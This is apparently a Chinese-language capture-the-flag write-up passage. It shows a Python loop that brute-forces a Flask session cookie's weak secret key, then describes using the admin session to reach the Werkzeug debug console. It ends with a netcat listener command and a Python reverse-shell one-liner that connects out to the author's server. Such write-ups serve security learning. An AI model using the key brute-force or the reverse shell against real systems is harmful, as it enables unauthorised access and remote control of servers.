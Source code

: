 ```
                    payload = payload[1:]
                data = payload.split(".")[0]
                data = base64_decode(data)
                if compressed:
                    data = zlib.decompress(data)
                return data
            else:
                app = MockApp(secret_key)
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)
                return s.loads(session_cookie_value)
        except Exception as e:
            return "[Decoding error] {}".format(e)

if __name__ == "__main__":
    cnt=1
    while True:
        cookie_value = 'eyJwb3dlciI6Imd1ZXN0IiwidXNlciI6ImFzZCJ9.ZPabPw.NC1Zaj2Hgq5v8GDo0SVtc3qC6Ek'
        secret_key = "This-random-secretKey-you-can't-get"+os.urandom(2).hex()
        if secret_key:
            result = FSCM.decode(cookie_value, secret_key)
        else:
            result = FSCM.decode(cookie_value)
        cnt+=1
        print(result,cnt)
        if 'power' in result:
            print(result,secret_key,'YES')
            break
```

爆破后，利用admin的session进入，看到admin留下的pin码

进入网站下的/console，进行命令执行

![](./images/image-5.png)

这里为了方便操作，我把shell反弹到了我自己的服务器上

```
nc -lvnp port
//打开自己服务器的端口监听
//将下面的命令修改为自己的ip和端口，全部复制到console执行就能得到shell权限
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
